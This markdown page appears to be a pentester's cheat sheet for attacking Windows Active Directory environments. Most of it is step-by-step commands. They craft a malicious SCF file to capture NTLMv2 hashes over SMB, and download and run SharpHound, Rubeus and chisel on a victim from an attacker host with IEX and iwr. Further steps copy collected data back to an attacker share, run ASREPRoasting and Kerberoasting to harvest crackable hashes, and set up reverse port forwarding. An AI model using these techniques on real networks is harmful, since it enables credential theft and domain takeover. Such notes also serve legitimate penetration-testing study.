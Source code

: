 # Windows vulnerability {-}

## Use scf file to get the NTLMv2 hash {-}

**SCF** (Shell Command File) are simple files that can be used to perform a connection to the attacker machine by using the
**SMB** protocol. The intersting purpose of those kind of files is that they can perform small and limited set of operations,
but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit of this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim one.

1. in a shell, create a shared folder and let it open

    ```bash
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. create the malicious scf file

    ```scf
    [Shell]
    Command=2
    IconFile=\\10.10.10.11\share\pentestlab.ico
    [Taskbar]
    Command=ToggleDesktop
    ```

1. copy the malicious file in the desired victim shared resource

That's it... Check the shared folder that you have created previously and if there is an interaction between the victim
and the file, you will receive the NTLMv2 hash of the victim.

You can then try to crack the hash with **john**

## Active Directory Enumeration {-}

As soon as we see port 88 and 389 or if victime machine changed the port number and we see Kerberos and LDAP, Attacker can estimate that the 
victim machine is a Domain Controller.

If we already have credentials, we can enumerate the Active Directory with the bloodhound package

### Injesting bloodhound from the attacker machine {-}

1. Install bloodhound injester
    
    ```bash
    python -m venv venv
    source venv/bin/activate
    pip install bloodhound
    ```

1. Run enumeration

    ```bash
    bloodhound-python -d victim.local -u username -p "Password" -gc machine.victim.local -c all -ns 10.10.10.11
    ```

1. New json files have been created in your working directory

    ```bash
    ls -la *.json
    zip htblocal.zip *.json 
    ```

### Injesting bloodhound from the victim {-}

You can also do the injester technique from the victim machine it self with the **Sharphound.ps1** script.

```bash
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
cat SharpHound.ps1 | grep "Invoke"
python -m http.server 80
```

Then in the victim machine, get the sharphound

```powershell
IEX(New-Object Net.WebClient).downloadString("http://10.10.10.11/SharpHound.ps1")
Invoke-BloodHound -CollectionMethod All
```

When the SharpHound is finished, you will see a `.zip` file in the victim machine that you need now to transfer on the
attacker one.

1. on the attacker machine
    
    ```bash
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. on the victim machine

    ```powershell
    copy zipfile.zip \\10.10.10.11\smbFolder\zipfile.zip
    ```

### Install bloodhound and run it {-}

1. Install bloodhound and neo4j

    ```bash
    sudo apt install neo4j bloodhound
    ```

1. Check that alternatives are not on java11

    ```bash
    update-alternatives --config java

    #dont user java 11
    ```

1. run neo4j service

    ```bash
    sudo neo4j console
    ```

1. run bloodhound

    ```bash
    bloodhound --no-sandbox &> /dev/null &
    disown
    ```

1. Connect bloodhound to neo4j database
1. Drag & Drop the **.zip** file and go to Analysis tab

    - Find all Domains Admins -> Show Administrator of the domain
    - Find Shortest Paths to Domain Admins -> Fastest way to be converted as Administrator
    - List all Kerberoastable Accounts -> Find users in wich attacker can execute a Kerberoasting attack (need of credentials)
    - Find Principals with DCSync Right -> Attacker can run a secretsdump attack to get all users hashes when user have GetChangesAll right.


## ASREPRoasing on Kerberos {-}

If the Kerberos pre-authentication has been disabled for an account, that means that it is vulnerable to ASREPRoasting.
As soon as we have a username, we can use the GetNPUsers script from impacket to retrieve it's password Hash

```bash
GetNPUsers.py domain/username -request -no-pass -dc-ip 10.10.10.11

#OUTPUT
[*] Getting TGT for username
$krb5asrep$23$username@domain:00c4e7b0ce1ad503425a4b0161021fe5$8d8d475c06d1fb191d431055f3dc5cf63e22ebcbb6cdf4a7cb122e
8f16374f221327e13be255eb60df449969b864abf3322c2c69c16738b9cbbd47ff1a67727656d7c7581c0df55280d19d4553c92fe86fb313fd7fb
843bd2e7796183d005edf241d9c89917239f29834ce6595f7359911e427b21a16154e552536dd1e1c66280e240ee9ea6d9d7ca5c462c5abf9a57ca
46db4af7c4a43b4261f5560257c58e6e1cc51ebe742dbeb903a7379ae7e2db8882018922feed8ae18ee799621de5f64bf0c10284e66a5017a2f6a13
b0ff132e99e715ecded126bdbd6347dd93a0cfff96a586fb5682ce5e04b2960b67401854
```

You can then copy the TGT in a file and try to crack it with john

## Kerberoasting attack {-}

A **Kerberoasting attack** can be done against Kerberoastable users that you find with Bloodhound and need at least a
user and password of a user from the domain.

### Kerberoasting attack on victim machine with rubeus {-}

**Rubeus.exe** is a tool that can perform Kerberoasting attack into the victim machine.

1. Download rubeus.exe on attacker machine

    ```bash
    git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
    ```

1. Send the rubeus to the victim machine and execute it

    - on attacker machine

        ```bash
        python -m http.server 80
        ```
    - on victim machine

        ```powershell
        iwr -uri http://10.10.10.11/Rubeus.exe -OutFile Rubeus.exe
        ```

1. Execute ther Kerberoasting attack on the victim machine (in this example we will perform a Kerberoasting with alternate credentials)

    ```powershell
    C:\temp\Rubeus.exe -> check the roating possibilities
    C:\temp\Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password1234
    ```

You will then see the hash that you can copy into the attacker machine and execute a hashcrack with **john**.  

### Kerberoasting attack from attacker machine with impacket-GetUserSPNs {-}

**Impacket-GetUserSPNs** is a script that can perform kerberoasting attack from the attacker machine. To do that,
the victim machine needs to have the port 88 open and attacker needs to have credentials of at list one domain user.

If port 88 is not externaly opened but you have access to the victim machine by a shell, you can make a reverse port
forwarding to achieve the **Kerberoasting attack** on local.

1. Sync clock with the victim machine

    ```bash
    rdate -n 10.10.10.10
    ```

1. Download chisel and build it on attacker machine

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go build -ldflags "-s -w" .
    du -hc chisel
    upx brute chisel
    du -hc chisel
    ```

1. Download chisel.exe on [github chisel release](https://github.com/jpillora/chisel/releases/tag/v1.7.6) and download the windows_amd64.gz
1. Transfer chisel.exe to the victim machine

    - on the attacker machine

        ```bash
        mv Downloads/Firefox/chisel_1.7.6_windows_amd64.gz chisel.exe.gz
        gunzip chisel.exe.gz
        python -m http.server 80
        ```

    - on the victim machine

        ```powershell
        iwr -uri htttp://10.10.10.11/chisel.exe -outFile chisel.exe
        ```

1. On the attacker machine create reverse server

    ```bash
    ./chisel server --reverse --port 1234
    ```

1. Port forward victim ports to attacker reverse server

    ```powershell
    C:\temp\chisel.exe client 10.10.10.11:1234 R:88:127.0.0.1:88
    ```

Thats it. we can now execute the Kerberoasting attack. Of course the above commands are necessary if the port 88 are not
externaly opened. 

- in the case of a victim with port 88 opened the attack will look as following:

    ```bash
    impacket-GetUserSPNs domain.local/user:password -request
    ```

- in the case of having to perform a reverse port forwarding

    ```bash
    impacket-GetUserSPNs domain.local/user:password -request -dc-ip 127.0.0.1
    ```

You will then see the hash that you can copy in a file and execute a hashcrack with **john**.
